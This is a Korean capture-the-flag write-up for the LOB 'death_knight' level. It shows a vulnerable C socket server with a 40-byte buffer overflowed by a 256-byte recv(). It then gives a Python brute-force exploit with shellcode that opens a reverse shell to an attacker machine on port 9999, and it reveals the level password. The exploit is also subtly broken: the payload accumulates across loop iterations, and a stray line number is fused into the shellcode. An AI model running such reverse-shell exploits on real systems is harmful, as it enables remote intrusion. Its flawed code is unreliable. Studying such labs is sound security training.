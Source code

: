 ```yaml
---
layout: single
title: "LOB xavius -> death_night"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- WarGame
- WriteUp
- Pwnable
comments: true
share: true
---
```


source code:

```c

1  /*
2          The Lord of the BOF : The Fellowship of the BOF
3          - dark knight
4          - remote BOF
5  */
6  
7  #include <stdio.h>
8  #include <stdlib.h>
9  #include <errno.h>
10 #include <string.h>
11 #include <sys/types.h>
12 #include <netinet/in.h>
13 #include <sys/socket.h>
14 #include <sys/wait.h>
15 #include <dumpcode.h>
16 
17 main()
18 {
19         char buffer[40];
20 
21         int server_fd, client_fd;
22         struct sockaddr_in server_addr;
23         struct sockaddr_in client_addr;
24         int sin_size;
25 
26         if((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
27                 perror("socket");
28                 exit(1);
29         }
30 
31         server_addr.sin_family = AF_INET;
32         server_addr.sin_port = htons(6666);
33         server_addr.sin_addr.s_addr = INADDR_ANY;
34         bzero(&(server_addr.sin_zero), 8);
35 
36         if(bind(server_fd, (struct sockaddr *)&server_addr, sizeof(struct sockaddr)) == -1){
37                 perror("bind");
38                 exit(1);
39         }
40 
41         if(listen(server_fd, 10) == -1){
42                 perror("listen");
43                 exit(1);
44         }
45 
46         while(1) {
47                 sin_size = sizeof(struct sockaddr_in);
48                 if((client_fd = accept(server_fd, (struct sockaddr *)&client_addr, &sin_size)) == -1){
49                         perror("accept");
50                         continue;
51                 }
52 
53                 if (!fork()){
54                         send(client_fd, "Death Knight : Not even death can save you from me!\n", 52, 0);
55                         send(client_fd, "You : ", 6, 0);
56                         recv(client_fd, buffer, 256, 0);
57                         close(client_fd);
58                         break;
59                 }
60 
61                 close(client_fd);
62                 while(waitpid(-1,NULL,WNOHANG) > 0);
63         }
64         close(server_fd);
65 }

```

평범한 소켓 통신 서버 역할을 하는 프로그램이며, 원격접속한 사용자로부터 입력값을 받고 있다. 그리고 이를 통해 Buffer Overflow(이하 BOF)가 발생하게 된다. 그리고 이전의 문제들과 다르게 이 버퍼에는 아무런 보호조치가 되어있지 않다. 결국 이 문제는 원격지에서 이 LOB 서버로 접속한 후, 쉘코드와 함께 bof를 발생시키면 된다. 우선 따로 만든 공격지에서 LOB 서버 6666번 포트로 nc 명령어를 사용하였다.

![nc]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/0.png)

위와 같이 입력값을 받고 있다.
공격지인 다른 리눅스 로컬로 리버스 쉘코드를 사용한 브루트 포스 코드를 작성해 두었다. 원격에서 공격하는 만큼 ret주소를 알 수 없기 때문에 브루트 포스를 사용했다.


Reverse shellcode 출처: https://orang.tistory.com/entry/%ED%95%B4%EC%BB%A4%EC%8A%A4%EC%BF%A8-LOB-xavius-deathknight-by-ORANG

```c

1  import sys, struct, socket
2  
3  host = "192.168.235.135"
4  port = 6666
5  
6  hexhost = "\xc0\xa8\xeb\x8a" # 192.168.235.138
7  recvhexport = "\x27\x0f" # port 9999
8  
9  shellcode = "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68" + hexhost + "\x68\x02\x00" + recvhexport + "\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"10 
11 padding1 = "A" * 44
12 padding2 = "\x90" * 50
13 payload = ""
14 
15 for i in range(0xff, 0xf0, -1):
16 	for j in range(0xff, 0x00, -1):
17 		for k in range(0xff, 0x00, -1):
18 		 	r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
19 		 	r.connect((host, port))
20 		 	retaddr = chr(k) + chr(j) + chr(i) + "\xbf"
21 		 	print("RET: " + str(hex(struct.unpack("I", retaddr)[0])))
22 		 	payload += padding1
23 		 	payload += retaddr
24 		 	payload += padding2
25 		 	payload += shellcode
26 		 	print(r.recv(52))
27 		 	print(r.recv(6))
28 		 	r.send(payload)
29 		 	r.close()

```

LOB 서버에 6666번 포트로 연결하고, receive를 9999번 포트로 받으려고 한다.

![nc2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/1.png)

nc로 공격지에서 listen 모드로 9999번 포트를 열어두고, 위의 브루트포스 코드를 실행시킨다.

![exploit]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/2.png)


my-pass: got the life